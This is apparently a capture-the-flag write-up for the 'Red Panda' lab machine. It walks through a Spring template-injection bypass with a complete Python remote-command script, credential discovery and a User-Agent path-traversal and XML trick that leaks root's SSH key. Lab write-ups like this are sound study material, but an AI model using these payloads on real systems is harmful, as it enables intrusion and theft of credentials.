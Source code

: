 ```yaml
---
title: Red Panda (Easy)
author: Carlos
img_path: /writeimgs/redpanda
date: 2023-02-10
categories: [Writeups, writeups-easy]
tags: [Writeups, writeups-easy]
---
```

<div align="center"><img src= "/pandaicon.png/"></div> 

<div></div>
<p> </p>
We start scanning ports with nmap

<img src= "red1.png">


Once the port scan is done, we observe that on port 8080, they have a website, we enter there and find a nice search engine for pandas:

<img src= "/red2.png/">

If we use the whatweb command, we can observe the technology that the web has:

<img src= "/red3.png/">

Knowing this we can use an example of <A HREF="https://github.com/swisskyrepo/PayloadsAllTheThings"> PayloadsAllTheThings </A> but it blocks the $

<img src= "/red4.png/">

However, we can use * which works in the same way.

<img src= "/red5.png/">

To perform this process in an automatic and simple way, we can use the following script:

```ruby
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```

We use the above mentioned script and get the user flag!

<img src= "/red6.png/">
<p>
<img src= "/red7.png/">
</p>
After searching through directories for a while we found credentials in MainController.java.

<img src= "/red8.png/">

We can use these credentials to connect via ssh:

<img src= "/red9.png/">

We will try to use the pspy to see what is running behind, for that we download it and upload it with:

<b> <i>scp pspy64 woodenk@10.10.11.170:/home/woodenk</i></b>

<img src= "/red10.png/">

Once pspy is uploaded, we give it permissions and run it:

<img src= "/red11.png/">

If we look with pspy at the system tasks, we see that root runs a script like woodenk.

<img src= "/red12.png/">

This may be a clue to be able to scale, because why, would you delete files with that extension? Reviewing again the file where we found credentials we see how it exports the xml.

<img src= "/red13.png/">

Also in another App.java file we can see how it handles the metadata, now it starts to make sense that it will delete files with those extensions, but also in the file it shows us how it handles the User-Agent.

Looking at this configuration we can inject in the "Artist" field, a path where the xml will be, this in any image that later we will upload to the machine.

<img src= "/red14.png/">

Next we will create in the home an xml file that points to the root id_rsa, this with the name defined in the image plus _creds.xml.

<img src= "/red15.png/">

Now we have to make a curl request with the format we saw in the file as User-Agent.

<p> curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg" </p>

<img src= "/red16.png/">

Finally we will export the xml from /stats to take our file.

<img src= "/red17.png/">
<p> </p>
<img src= "/red18.png/">

After a few seconds if we check the xml it will have the root id_rsa.

<img src= "/red19.png/">

Now with this id_rsa, we can finally connect via ssh as root and get the much desired flag!

<img src= "/red20.png/">
